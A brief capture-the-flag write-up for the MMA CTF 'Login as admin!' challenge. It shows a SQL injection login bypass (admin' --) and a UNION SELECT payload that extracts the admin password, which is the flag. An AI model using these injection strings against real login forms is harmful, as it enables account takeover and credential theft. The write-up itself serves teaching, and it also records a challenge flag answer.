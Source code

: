 # Login as admin!

## Problem

Login as admin. And get the flag! The flag is the password of admin.

http://arrive.chal.mmactf.link/login.cgi

You can use test:test.

## Solution

Commendation: @emedvedev

The form contains an easy SQL injection and you can login as admin with entering `admin' --` in the username field.

```
Congratulations!!
You are admin user.
The flag is your password!
```

There's a username in the output, so we get a password with another injection angle: using a `UNION SELECT` instead of username.

Login with `' union select (SELECT password FROM user WHERE user='admin'),2--`. You'll see the flag:

```
You are MMA{cats_alice_band} user.
```
